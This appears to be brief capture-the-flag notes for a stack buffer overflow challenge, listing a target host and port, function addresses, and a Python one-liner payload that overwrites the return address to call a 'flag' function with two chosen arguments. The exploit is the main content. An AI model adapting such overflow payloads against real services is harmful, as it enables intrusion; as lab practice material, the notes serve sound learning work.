 # target
139.59.176.130:31467

# addresses
```
flag: 0x080491e2
args: 0xdeadbeef
args: 0xc0ded00d
```

# bof payload
```sh
python3 -c 'import sys; sys.stdout.buffer.write(b"A" * 188 +  b"\xe2\x91\x04\x08" + b"A" * 4 +  b"\xef\xbe\xad\xde" + b"\x0d\xd0\xde\xc0")'

sets returns address to 0x080491e2 (flag function)
sets the first argument to 0xdeadbeef
sets the second arguemnt to 0xc0ded00d
```